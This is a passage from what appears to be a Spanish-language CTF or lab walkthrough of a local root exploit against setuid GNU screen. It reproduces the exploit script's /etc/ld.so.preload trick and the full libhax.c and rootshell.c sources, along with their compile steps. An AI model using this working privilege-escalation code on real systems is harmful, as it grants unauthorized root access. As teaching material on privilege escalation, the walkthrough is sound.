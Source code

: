 ```bash
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell# 
```

Analizando un poco el script, primero crea un archivo llamado `libhax.c` y lo compila como `libhax.so`; asi que vamos a realizar esta parte, creando dicho archivo y compilandolo.

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

```bash
❯ gcc -fPIC -shared -ldl -o libhax.so libhax.c

libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
```

Nos aparece un **Warning**, pero no hay problema. Ahora borramos el archivo `libhax.c`, creamos el archivo `rootshell.c` y lo compilamos:

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```bash
❯ rm libhax.c
❯ gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
```